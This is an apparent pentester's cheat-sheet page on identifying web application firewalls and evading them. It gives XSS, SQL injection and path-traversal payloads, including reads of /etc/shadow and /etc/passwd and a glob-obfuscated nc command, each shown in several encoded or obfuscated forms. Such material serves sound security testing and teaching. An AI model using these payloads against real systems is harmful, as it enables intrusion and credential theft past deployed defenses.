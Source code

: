 # Overview

>[!INFO] What is a WAF?
>A **WAF** or web application firewall helps protect web applications by **filtering** and **monitoring** HTTP traffic between a web application and the Internet.
It typically protects web applications from attacks such as **cross-site forgery**, cross-site-scripting (**XSS**), **file inclusion**, and **SQL injection**, among others.
A WAF is a protocol **layer 7** defense (in the OSI model), and is not designed to defend against all types of attacks. This method of attack mitigation is usually part of a suite of tools which together create a holistic defense against a range of attack vectors.

![[Pasted image 20240906153002.png]]

## Identify the WAF

WAFs use standard ports : **80**, **443**, **8000**, **8008**, **8080**, and **8088**.

### wafw00f
```bash
wafw00f $target
```

### nmap
```bash
# detecting the waf
nmap -p$port --script http-waf-detect $target

# fingerprinting the waf
nmap -p$port --script http-waf-fingerprint $target
```

## Bypass techniques

### Case Toggling

>[!INFO]
>Combine **upper** and **lower case characters** for creating great payloads.

#### **Examples**
```
# bypassed 
<ScrIpT>confirm()</sCRiPt>
sELeCt * fRoM * wHerE OWNER = 'NAME_OF_DB'

# url example
http://example.com/index.php?page_id=-1 UnIoN SeLeCT 1,2,3,4
```

### **URL Encoding**

>[!INFO]
>**Encode** normal payloads with **%** encoding/URL encoding.
You can use **Burp**. It has an encoder/decoder tool.

#### Examples

```javascript
# blocked by waf
<Svg/x=">"/OnLoAD=confirm()//
# bypassed
%3CSvg%2Fx%3D%22%3E%22%2FOnLoAD%3Dconfirm%28%29%2F%2F

# blocked by waf
UniOn(SeLeCt 1,2,3,4,5,6,7,8,9,10)
# bypassed
UniOn%28SeLeCt+1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%29

# url example
https://example.com/page.php?id=1%252f%252a*/UNION%252f%252a /SELECT
```

### Unicode

>[!INFO]
>**ASCII** characters in Unicode encoding give us great variants for bypassing WAF.
**Encode entire or part** of the payload for obtaining results.

#### Examples

```
# basic request
<marquee onstart=prompt()>

# obfuscated
<marquee onstart=\u0070r\u06f\u006dpt()>

# blocked by waf
/?redir=http://google.com

# bypassed
/?redir=http://google。com (Unicode alternative)

# blocked by waf
<marquee loop=1 onfinish=alert()>x

# bypassed
＜marquee loop＝1 onfinish＝alert︵1)>x (Unicode alternative)

# basic request
../../etc/shadow

# obfuscated
%C0AE%C0AE%C0AF%C0AE%C0AE%C0AFetc%C0AFshadow
```

### HTML Representation

>[!INFO]
>WebApps encode special characters into HTML. Encoding and render them accordingly.
Basic bypass cases with HTML encoding numeric and generic.

#### Examples

```
# basic request
"><img src=x onerror=confirm()>

# encoded payload
&quot;&gt;&lt;img src=x onerror=confirm&lpar;&rpar;&gt; 
# or
&#34;&#62;&#60;img src=x onerror=confirm&#40;&#41;&#62; 
```

### Mixed Encoding

>[!INFO]
>Such rules often tend to filter out a specific type of encoding.
Such filters can be bypassed by **mixed encoding** payloads.
Newlines and tabs and further add to obfuscation.

#### Examples

```
# obfuscated payload
<A HREF="h
tt p://6 6.000146.0x7.147/">XSS</A>
```

### Using comments

>[!INFO]
>Comments obfuscate standard payload vectors.
Different payloads have different ways of obfuscation.

#### Examples

```
# blocked by waf
<script>confirm()</script>

# bypassed
<!--><script>confirm/**/()/**/</script>

# blocked by waf
/?id=1+union+select+1,2--

# bypassed
/?id=1+un/**/ion+sel/**/ect+1,2--

# url example
index.php?page_id=-1 %55nION/**/%53ElecT 1,2,3,4'union%a0select pass from users#

index.php?page_id=-1 /*!UNION*/ /*!SELECT*/ 1,2,3
```

### Double Encoding

>[!INFO]
>Web Application Firewall filters tend to encode characters to protect web app.
Poorly developed filters (without recursion filters) can be bypassed with double encoding.

```
# basic request
http://example/cgi/../../winnt/system32/cmd.exe?/c+dir+c:\

# obfuscated payload
http://example/cgi/%252E%252E%252F%252E%252E%252Fwinnt/system32/cmd.exe?/c+dir+c:\

# basic payload
<script>confirm()</script>

# obfuscated payload
%253Cscript%253Econfirm()%253C%252Fscript%253E
```

### Wildcard Obfuscation

>[!INFO]
>Global patterns are used by various command-line utilities to work with multiple files.
We can change them to run system commands.

#### Examples

```
# basic request
/bin/cat /etc/passwd

# obfuscated payload
/???/??t /???/??ss??

# used chars
/ ? t s

# basic request
/bin/nc 127.0.0.1 443

# obfuscated payload
/???/n? 2130706433 443

# used chars
/ ? n [0-9]
```

### Junk Characters

>[!INFO]
Simple payloads get filtered out easily by WAF.
Adding some **junk** chars helps **avoid detection** (only specific cases ).
This technique often helps in confusing regex-based firewalls.

#### Examples

```
# basic request
<script>confirm()</script>

# obfuscated payload
<script>+-+-1-+-+confirm()</script>

# basic request
<BODY onload=confirm()>

# obfuscated payload
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()>

# basic request
<a href=javascript;alert()>ClickMe

# bypassed technique
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe
```

## More

[More | WAF Bypass Techniques](https://hacken.io/researches-and-investigations/how-to-bypass-waf-hackenproof-cheat-sheet)

[PortSwigger | WAF Bypass with BApp](https://portswigger.net/bappstore/ae2611da3bbc4687953a1f4ba6a4e04c)

[YesWeHack | WAF Bypass](https://blog.yeswehack.com/yeswerhackers/web-application-firewall-bypass/)
